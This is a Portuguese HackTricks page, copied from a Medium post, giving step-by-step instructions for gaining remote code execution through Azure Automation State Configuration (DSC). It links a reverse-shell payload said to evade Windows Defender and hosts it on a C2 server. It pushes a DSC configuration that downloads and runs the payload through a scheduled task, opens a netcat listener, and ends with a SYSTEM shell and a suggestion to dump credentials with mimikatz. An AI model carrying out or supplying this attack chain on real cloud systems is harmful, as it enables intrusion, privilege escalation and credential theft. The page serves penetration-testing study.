 # Az - State Configuration RCE

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Este post foi copiado de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Preparação da Infraestrutura do Servidor Remoto (C2) <a href="#f0fa" id="f0fa"></a>

Estarei hospedando uma versão simplificada do payload Nishang Invoke-PowerShellTcp.ps1 do servidor remoto "40.84.7.74", que é a caixa Kali. O nome do payload será "RevPS.ps1". Para evitar que o script Nishang seja excluído pelo Windows Defender por qualquer motivo (talvez você prefira salvar o arquivo no disco), aqui tem uma versão simplificada que você pode usar e que vai burlar o Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Isso será hospedado por um simples Servidor Python Simples na caixa Kali.

### Passo 1 — Criar Arquivos <a href="#89de" id="89de"></a>

Precisaremos criar outro arquivo de configuração DSC. Um modelo pode ser baixado aqui: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Este arquivo de configuração usará a mesma função de escrita de arquivo que usamos anteriormente. Desta vez, o conteúdo inclui código para baixar e executar um payload do nosso servidor remoto. Além disso, estamos usando uma função de tarefa agendada disponível no módulo _ComputerManagementDsc_. A função de tarefa agendada terá um papel chave na execução e nos fornecerá privilégios de SYSTEM mais tarde.

Também baixaremos um script que será usado para publicar nossa configuração na VM. Ele está localizado aqui: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Esses arquivos servirão como um modelo. **Você precisará preencher os nomes das variáveis e parâmetros com o que você está usando**. Isso inclui os nomes dos recursos, caminhos de arquivos e os nomes do servidor/payload externo que você está usando. Por favor, consulte os comentários no código.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Passo 2 — Compactar Arquivo de Configuração <a href="#c2c2" id="c2c2"></a>

Com nossos dois arquivos criados, vamos compactar o arquivo **‘reverse\_shell\_config.ps1’** para que possa ser enviado para a Conta de Armazenamento
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### Passo 3 — Configurar Contexto de Armazenamento & Upload <a href="#bed9" id="bed9"></a>

Novamente, vamos configurar o contexto da nossa Conta de Armazenamento, o que eu já fiz. Eu já tenho um contêiner chamado '**azure-pentest**', então é aqui que farei a publicação:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### Passo 4 — Preparar Kali Box <a href="#20fb" id="20fb"></a>

Na nossa Kali box, podemos simplesmente usar _wget_ para baixar nosso payload do PowerShell. O script do reverse-shell em sua forma bruta está localizado aqui: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Precisamos editar o script de reverse-shell adicionando nossos parâmetros, para que a VM do Windows saiba onde se conectar após a execução. No meu caso, adicionei o seguinte:
```
```
RevPShell -Reverse 40.84.7.73 443
```
### Passo 5 — Publicar Arquivo de Configuração <a href="#9ad6" id="9ad6"></a>

Agora vamos executar nosso arquivo de configuração. Eu configurei o meu para ser publicado na Área de Trabalho para uma melhor visualização, no entanto, ele pode ser publicado em praticamente qualquer lugar. Após alguns minutos, veremos que o script de reverse-shell foi publicado!

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Passo 6 — Hospedar Payload e Configurar Listener <a href="#c55f" id="c55f"></a>

Uma vez que publicamos a configuração, podemos iniciar simultaneamente um Python SimpleHTTPServer na porta 80 para hospedar o payload, juntamente com um listener netcat para capturar a conexão:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
Vemos que a tarefa agendada foi executada e nosso payload foi recuperado e executado na memória com privilégios de nível **SYSTEM**!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusão <a href="#1ec2" id="1ec2"></a>

Isso agora abre a porta para muitas possibilidades. Como temos um shell executando como **SYSTEM**, podemos despejar credenciais com mimikatz (potencialmente arriscado dependendo da maturidade do EDR para recursos na nuvem). Se você despejar credenciais, há uma boa chance de que elas possam ser reutilizadas em diferentes recursos. Por último, uma grande lição é que, em vez de limitar isso a uma VM, você agora tem a capacidade de aplicar essa configuração potencialmente em várias VMs.

Com isso, concluímos nossas aventuras com Azure Automation DSC! Espero que você tenha se divertido, aprendido muito e continue a expandir com sua própria criatividade.

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
